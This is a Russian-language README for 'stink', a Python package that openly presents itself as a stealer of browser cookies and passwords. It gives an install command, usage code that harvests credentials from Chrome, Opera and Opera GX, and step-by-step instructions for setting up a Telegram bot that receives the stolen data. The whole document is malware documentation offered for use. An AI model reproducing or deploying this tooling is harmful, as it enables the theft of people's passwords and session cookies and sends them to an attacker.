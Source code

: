 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Кастомный](#Кастомный)
    * [Chrome](#Chrome)
    * [Opera](#Opera)
    * [Opera](#Opera)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink==0.0.2
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```
### Кастомный
#### Chrome
```python
from os import path, mkdir

from stink.browsers.chrome import Chrome
from getpass import getuser

storage_path = f"C:/Users/{getuser()}/AppData/"
storage_folder = "files/"

if not path.exists(storage_path + storage_folder):

    mkdir(storage_path + storage_folder)

stealer = Chrome(storage_path=storage_path, storage_folder=storage_folder)
stealer.run()
```
#### Opera
```
from os import path, mkdir

from stink.browsers.opera_default import Opera_Default
from getpass import getuser

storage_path = f"C:/Users/{getuser()}/AppData/"
storage_folder = "files/"

if not path.exists(storage_path + storage_folder):

    mkdir(storage_path + storage_folder)

stealer = Opera_Default(storage_path=storage_path, storage_folder=storage_folder)
stealer.run()
```
#### Opera GX
```
from os import path, mkdir

from stink.browsers.opera_gx import Opera_GX
from getpass import getuser

storage_path = f"C:/Users/{getuser()}/AppData/"
storage_folder = "files/"

if not path.exists(storage_path + storage_folder):

    mkdir(storage_path + storage_folder)

stealer = Opera_GX(storage_path=storage_path, storage_folder=storage_folder)
stealer.run()
```
## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="docs/_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="docs/_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="docs/_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
